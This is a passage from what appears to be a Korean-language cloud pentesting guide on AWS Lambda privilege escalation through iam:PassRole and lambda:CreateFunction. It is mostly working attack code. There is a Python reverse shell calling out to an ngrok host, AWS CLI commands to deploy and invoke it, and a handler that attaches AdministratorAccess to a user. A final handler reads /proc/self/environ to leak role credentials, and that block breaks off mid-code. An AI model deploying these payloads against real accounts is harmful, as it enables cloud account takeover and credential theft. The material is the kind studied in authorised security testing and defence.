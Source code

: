 {% content-ref url="../aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

**`iam:PassRole`, `lambda:CreateFunction`, 및 `lambda:InvokeFunction`** 권한이 있는 사용자는 권한을 상승시킬 수 있습니다.\
그들은 **새로운 Lambda 함수를 생성하고 기존 IAM 역할을 할당하여**, 해당 역할과 관련된 권한을 함수에 부여할 수 있습니다. 사용자는 **이 Lambda 함수에 코드를 작성하고 업로드할 수 있습니다 (예: rev shell)**.\
함수가 설정되면 사용자는 **AWS API를 통해 Lambda 함수를 호출하여 실행을 트리거할 수 있습니다**. 이 접근 방식은 사용자가 Lambda 함수를 통해 간접적으로 작업을 수행할 수 있게 하며, 해당 함수와 연결된 IAM 역할에 부여된 접근 수준으로 작동합니다.\\

공격자는 이를 악용하여 **rev shell을 얻고 토큰을 훔칠 수 있습니다**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
당신은 또한 **람다 역할 권한을 남용**할 수 있습니다.\
람다 역할에 충분한 권한이 있다면, 이를 사용하여 관리자 권한을 부여할 수 있습니다:
```python
import boto3
def lambda_handler(event, context):
client = boto3.client('iam')
response = client.attach_user_policy(
UserName='my_username',
PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
)
return response
```
lambda의 역할 자격 증명을 외부 연결 없이 유출하는 것도 가능합니다. 이는 내부 작업에 사용되는 **네트워크 격리된 Lambdas**에 유용할 것입니다. 역방향 셸을 필터링하는 알려지지 않은 보안 그룹이 있는 경우, 이 코드는 lambda의 출력으로 자격 증명을 직접 유출할 수 있게 해줍니다.
```python
def handler(event, context):
sessiontoken = open('/proc/self/environ', "r").read()
return {
'statusCode': 200,
```